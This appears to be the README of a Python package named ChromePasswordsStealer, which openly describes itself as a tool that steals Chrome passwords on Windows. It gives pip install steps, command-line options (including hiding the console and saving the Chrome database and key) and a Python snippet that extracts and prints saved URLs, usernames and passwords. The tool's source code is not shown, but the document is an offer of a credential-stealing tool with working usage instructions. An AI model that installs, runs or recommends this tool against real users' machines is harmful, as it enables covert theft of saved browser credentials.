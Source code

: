 ![ChromePasswordsStealer logo](https://mauricelambert.github.io/info/python/security/ChromePasswordsStealer_small.png "ChromePasswordsStealer logo")

# ChromePasswordsStealer

## Description

This module steals chrome passwords on Windows.

## Requirements

This package require:
 - python3
 - python3 Standard Library
 - pywin32
 - PythonToolsKit
 - PyCryptodome

## Installation

```bash
pip install ChromePasswordsStealer
```

## Usages

## Command lines

```bash
# Python executable
python3 ChromePasswordsStealer.pyz -h
# or
chmod u+x ChromePasswordsStealer.pyz
./ChromePasswordsStealer.pyz --help

# Python module
python3 -m ChromePasswordsStealer

# Entry point (console)
ChromeStealer --save-all --window -f passwords
```

### Python script

```python
from ChromePasswordsStealer import ChromePasswordsStealer
stealer = ChromePasswordsStealer()
stealer = ChromePasswordsStealer("passwords", True)
stealer.get_database_cursor()
stealer.get_key()
for url, username, password in stealer.get_credentials():
    print(url, username, password)

stealer.save_and_clean()
```

## Help

```text
~# python3 ChromePasswordsStealer.py -h

usage: ChromePasswordsStealer.py [-h] [--filename FILENAME] [--window] [--save-all]

This program steals Chrome passwords on Windows.

optional arguments:
  -h, --help            show this help message and exit
  --filename FILENAME, -f FILENAME
                        The filename to export the credentials.
  --window, -w          Do not hide the console.
  --save-all, -s        Save chrome db, key file and key.
```

## Links

 - [Github Page](https://github.com/mauricelambert/ChromePasswordsStealer/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/ChromePasswordsStealer.html)
 - [Download as python executable](https://mauricelambert.github.io/info/python/security/ChromePasswordsStealer.pyz)
 - [Pypi package](https://pypi.org/project/ChromePasswordsStealer/)

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
